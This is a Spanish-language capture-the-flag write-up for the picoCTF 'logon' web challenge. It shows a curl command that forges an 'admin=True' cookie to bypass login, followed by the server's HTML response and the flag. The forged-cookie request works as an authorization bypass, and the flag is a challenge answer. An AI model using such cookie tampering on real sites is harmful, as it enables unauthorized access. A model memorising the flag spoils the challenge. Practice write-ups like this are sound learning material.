 # logon

## Descripción
La fábrica está ocultando cosas a todos sus usuarios. ¿Puedes entrar como Joe y encontrar lo que han estado mirando? 
https://jupiter.challenges.picoctf.org/problem/15796/

## Pistas
- Hmm no parece comprobar la contraseña de nadie, ¿excepto la de Joe?

## Solución
```bash

C:\Users\Ricardo>curl https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie: admin=True"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>

</html>
```

## Bandera
picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}

## Notas adicionales
| Comando | Descripción |
|--------|--------|
| curl -H | Nos permite modificar las cookies en una dirección web. |

## Referencias
[Cómo usar el comando curl de Linux](https://www.hostgator.mx/blog/comando-curl-linux/)